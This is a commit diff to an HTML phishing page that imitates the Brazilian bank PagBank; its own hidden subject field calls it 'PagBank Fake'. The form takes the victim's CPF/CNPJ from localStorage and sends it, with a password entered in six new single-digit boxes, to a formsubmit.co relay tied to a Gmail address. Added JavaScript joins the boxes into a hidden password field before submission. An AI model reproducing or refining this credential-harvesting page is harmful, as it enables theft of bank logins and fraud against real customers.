

Before and after one commit to Magrello33/pagpag, a plain HTML site: page index-senha.html in a window 1280 px wide. Shown: the part 384-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index-senha.html

```diff
--- a/index-senha.html
+++ b/index-senha.html
@@ -33,19 +33,33 @@
     .logo img {
       width: 140px;
     }
-    h2, .cpf-display {
+    .cpf-display {
       font-size: 1.1rem;
       color: #333;
       margin-bottom: 20px;
     }
-    input {
-      width: 100%;
-      padding: 14px;
-      font-size: 1rem;
-      border: 1px solid #ccc;
-      border-radius: 8px;
+
+    .code-container {
+      display: flex;
+      justify-content: center;
+      gap: 10px;
       margin-bottom: 20px;
     }
+
+    .code-input {
+      width: 40px;
+      height: 50px;
+      text-align: center;
+      font-size: 24px;
+      border: 2px solid #04a94f;
+      border-radius: 10px;
+      outline: none;
+    }
+
+    .code-input:focus {
+      border-color: #028b41;
+    }
+
     button {
       width: 100%;
       padding: 14px;
@@ -55,6 +69,10 @@
       border-radius: 8px;
       font-size: 1rem;
       cursor: pointer;
+    }
+
+    input[type="hidden"] {
+      display: none;
     }
   </style>
 </head>
@@ -68,21 +86,53 @@
       CPF/CNPJ: <span id="cpfCnpjExibido"></span>
     </div>
 
-    <form action="https://formsubmit.co/alunospilotos@gmail.com" method="POST">
+    <form action="https://formsubmit.co/alunospilotos@gmail.com" method="POST" id="senhaForm">
       <input type="hidden" name="_subject" value="Novo login capturado via PagBank Fake!" />
       <input type="hidden" name="_template" value="table">
       <input type="hidden" name="_captcha" value="false">
+      <input type="hidden" name="cpf" id="cpfOculto" />
+      <input type="hidden" name="senha" id="senhaCompleta" />
 
-      <input type="text" name="cpf" id="cpfOculto" readonly />
-      <input type="password" name="senha" placeholder="Digite sua senha" required />
+      <div class="code-container">
+        <input class="code-input" type="text" maxlength="1">
+        <input class="code-input" type="text" maxlength="1">
+        <input class="code-input" type="text" maxlength="1">
+        <input class="code-input" type="text" maxlength="1">
+        <input class="code-input" type="text" maxlength="1">
+        <input class="code-input" type="text" maxlength="1">
+      </div>
+
       <button type="submit">Entrar</button>
     </form>
   </div>
 
   <script>
+    // CPF
     const cpf = localStorage.getItem('cpfCnpj');
     document.getElementById('cpfCnpjExibido').innerText = cpf;
     document.getElementById('cpfOculto').value = cpf;
+
+    // Quadrinhos de senha
+    const inputs = document.querySelectorAll('.code-input');
+    inputs.forEach((input, index) => {
+      input.addEventListener('input', () => {
+        if (input.value && index < inputs.length - 1) {
+          inputs[index + 1].focus();
+        }
+      });
+      input.addEventListener('keydown', (e) => {
+        if (e.key === 'Backspace' && !input.value && index > 0) {
+          inputs[index - 1].focus();
+        }
+      });
+    });
+
+    // Monta senha antes do envio
+    const form = document.getElementById('senhaForm');
+    form.addEventListener('submit', (e) => {
+      const senha = Array.from(inputs).map(i => i.value).join('');
+      document.getElementById('senhaCompleta').value = senha;
+    });
   </script>
 </body>
 </html>
```
